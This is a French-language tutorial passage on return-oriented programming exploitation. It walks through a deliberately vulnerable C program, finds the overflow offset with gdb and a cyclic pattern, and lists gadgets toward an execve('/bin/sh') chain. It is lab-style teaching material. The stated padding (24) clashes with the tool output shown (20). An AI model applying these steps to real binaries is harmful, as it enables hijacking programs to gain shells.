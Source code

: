 ```yaml
---
title: "Exploitation d'une vulnérabilité de type ROP"
description: test.png
tags: ["Dans cet article je vous présente comment exploiter une vulnérabilité de type ROP (Return-oriented programming) permet de contourner des mécanismes notammement l'ASLR et le système NX."]
---
```


![forthebadge made-with-python](https://media.giphy.com/media/xT9IgG50Fb7Mi0prBC/giphy.gif)

Comment t'allez-vous ? Après un long moment d'absence je décide de revenir pour vous proposez un article sur le `pwn`, plus précisement sur l'exploitation d'une vulnérabilité de type `ROP` (Return-oriented programming).

Vous êtes intéressé ? Alors LET'S GO !

Prérequis :
- Avoir les bases en `pwn` de comprendre et comment attaquer un buffer overflow basique.
- Et d'un ordinateur, eh eh !

# Explication du système ROP

Avant de commencer l'exploitation, il faut bien comprendre à quoi sert ce système et de comprendre son fonctionnement.

Le `ROP`, return-oriented programming, est une technique d'exploitation avancée de type dépassement de pile (stack overflow) permettant l'exécution de code par un attaquant et ce en s'affranchissant plus ou moins efficacement des mécanismes de protection tels que l'utilisation de zones mémoires non-exécutables (cf. bit NX pour Data Execution Prevention, DEP), l'utilisation d'un espace d'adressage aléatoire (Address Space Layout Randomization, `ASLR`).

Notre but concrètement c'est de récupérer des instructions du binaire pour ensuite faire un rassemblement d'instruction (les bouts d'instruction on appel ça un `gadget` c'est le langage utilisé quand nous exploitons du ROP). Imagions que nous avons des instructions basique. (C'est un exemple bien evidamment)

    push   ebp                # Instruction 1
    mov    ebp,esp            # Instruction 2
    push   ecx                # Instruction 3
    sub    esp,0x4            # Instruction 4
    call   0x804848b <secret> # Instruction 5 
    mov    eax,0x0            # Instruction 6

Imaginons que par la suite, nous décidons de prendre les instructions qui nous intéresse pour ensuite faire un rassemblement d'instruction, par exemple.

    push   ebp                # Instruction 1
    mov    ebp,esp            # Instruction 2
    mov    eax,0x0            # Instruction 6

Justement, notre but c'est de récupérer les instructions du binaire pour ensuite modifier le comportement du programme et d'exécuter quelques choses qui nous intéresse par exemple un `SHELL`, eh oui !

Alors, rassurez-vous je vais vous faire une petite démonstration, donc pas de panique.

# Le programme et la compilation

Donc avant tout ça, nous allons activer l'`ASLR` (pour grosso modo randomisée la pile, le tas et également la libc) à l'aide d'une commande.

    root@0xEX75:~/rop# echo 2 | sudo tee /proc/sys/kernel/randomize_va_space

Et voici le programme en C que nous allons exploiter par la suite.

    #include <stdio.h>
    #include <stdlib.h>

    void function_vulnerability()
    {
            char buffer[8];
            gets(buffer);
            printf("%s\n", buffer);
    }

    int main(int argc, char **argv)
    {
            function_vulnerability();
            return 0;
    }

La commande pour la compilation du programme (je vais quand même vous expliquez les options), alors concrètement l'option `-m32` permet de compiler le programme avec 32 bits comme son nom l'indique.

`-static` Cette option permet grosso modo d’intégrer les bibliothèques dynamiques à notre binaire pour avoir un fichier beaucoup plus lourd. Pourquoi ? Si nous avons un fichier beaucoup plus lourd, nous aurons beaucoup plus d'instruction à mettre. Eh oui !

Et finalement l'option `-fno-stack-protector` permet de désactiver le Canari (nous aurons besoin de le désactiver pour effectuer notre attaque par buffer overflow, mais c'est très possible de bypass cette "sécurité").

    root@0xEX75:~/rop# gcc -m32 -static -fno-stack-protector vuln.c -o rop

Parfait, notre programme est prêt à être exploiter.

# Exploitation du programme

Les choses commence à être intéréssant, nous allons essayer de trouver le `padding` pour écraser le `Return Address Overwrite` ou bien `l'adresse de retour` (ou sauvegarde `EIP`).

Nous allons créer un petit pattern pour trouver le padding à l'aide d'un outil que vous pouvez installer rapidement [ici](https://github.com/Svenito/exploit-pattern) et par la suite lancer la commande juste ci-dessous.

    root@0xEX75:~/rop# pattern create 100
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Et lançons `gdb` (GNU Debugger), et ensuite d'envoyer les octets au programme pour trouver le bon `padding`. Il y a bien evidamment d'autre technique pour trouver le `padding` mais c'est la technique la plus amusante selon moi et plus simple aha.

    root@0xEX75:~/rop# gdb -q rop
    Reading symbols from rop...(no debugging symbols found)...done.
    gdb-peda$ r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    Program received signal SIGSEGV, Segmentation fault.                                                                                                                            
    [----------------------------------registers-----------------------------------]                                                                                                
    EAX: 0x65 ('e')
    EBX: 0x80481a8 (<_init>:        push   ebx)
    ECX: 0xffffffff 
    EDX: 0x80ec4d4 --> 0x0 
    ESI: 0x80eb00c --> 0x80642f0 (<__strcpy_ssse3>: mov    edx,DWORD PTR [esp+0x4])
    EDI: 0x0 
    EBP: 0x61413561 ('a5Aa')
    ESP: 0xffffd540 ("Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    EIP: 0x37614136 ('6Aa7')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x37614136
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd540 ("Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0004| 0xffffd544 ("a9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0008| 0xffffd548 ("0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0012| 0xffffd54c ("Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0016| 0xffffd550 ("b3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0020| 0xffffd554 ("4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0024| 0xffffd558 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    0028| 0xffffd55c ("b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x37614136 in ?? ()
    gdb-peda$

Par la suite, nous allons à nouveau utiliser le programme pour trouver pour de bon le `padding`, donc d'après le programme nous aurons besoin de `24` octets pour écraser la sauvegarde `EIP` donc l'adresse de retour. 

    root@0xEX75:~/rop# pattern offset 0x37614136 100
    20

Comme au début de l'article notre but est de pop un shell même si l'`ASLR` est open et également le système `NX`, pour ça nous devons trouver une fonction qui permet d'exécuter une commande par exemple. 

Voici une bonne liste de fonction que nous pouvons appliquer pour l'exploitation de notre programme [ICI](https://www.informatik.htw-dresden.de/~beck/ASM/syscall_list.html) bien entendu nous allons nous intéresser à la fonction numéro `11` donc la fonction `sys_execve()` pour exécuter une commande par exemple, dans notre cas /bin/sh.

![forthebadge made-with-python](https://raw.githubusercontent.com/0xEX75/0xEX75.github.io/master/Capture%20du%202020-01-11%2015-36-29.png)

Notre but, concrètement, c'est de pop des valeurs dans les registres, ce sont des registres que nous pouvons utiliser (`GPRs` registres à usage général, car il y a des registres réservée notamment `EIP` et `ESP`). 

Donc notre but c'est de mettre la valeur `11` dans le registre `EAX` et ensuite de mettre les paramètres donc par exemple `/bin/sh` comme argument dans le registre `EBX`, ce qui donnera `sys_execve("/bin/sh")` et comme la fonction `execve` prend 3 paramètres en particulier, nous allons mettre `NULL` pour `ECX` ce qui donnera `sys_execve("/bin/sh", NULL)` et enfin de mettre donc la valeur `NULL` dans le registre `EDX` ce qui donnera `sys_execve("/bin/sh", NULL, NULL)`.

Nous avons déjà une idée pour attaquer le programme en question, nous allons utiliser un programme pour trouver les instructions, j'utilise très régulièrement l'outil `ROPGadget` ou bien `rp-lin-x64` (Vous pouvez l'installer juste [ICI](https://github.com/0vercl0k/rp/releases)).

Je préfère largement utiliser l'outil `rp-lin-x64`, subjectivement beaucoup plus puissant et rapide contrairement à `ROPGadget`.

Nous allons essayer de trouver un `gadget` qui nous permettra de `pop` une valeur dans le registre `EAX` pour le nom de la fonction.

    root@Seyptoo:~/rop# rp-lin-x64 -f rop -r 1 --unique | grep "pop eax"
    0x080d2f8e: pop eax ; call dword [edi+0x4656EE7E] ;  (1 found)
    0x0809d162: pop eax ; jmp dword [eax] ;  (4 found)
    0x080b8c96: pop eax ; ret  ;  (1 found)
    0x0804c35d: pop eax ; retn 0x080E ;  (4 found)
    0x080a712c: pop eax ; retn 0xFFFF ;  (1 found)

Celui-ci `0x080b8c96: pop eax ; ret  ;  (1 found)` est pas mal du tout, notons ça dans un coin, précis, car par la suite, nous aurons besoin de l'adresse dans notre script `Python`.

Ensuite cherchons une instruction qui nous permettra de mettre le premier paramètre dans la fonction. Utilions à nouveau l'outil.

    root@Seyptoo:~/rop# rp-lin-x64 -f rop -r 1 --unique | grep "pop ebx"
    0x08050603: pop ebx ; jmp eax ;  (6 found)
    0x0804d057: pop ebx ; rep ret  ;  (1 found)
    0x080481c9: pop ebx ; ret  ;  (178 found)
    0x080d407c: pop ebx ; retn 0x06F9 ;  (1 found)
    
 
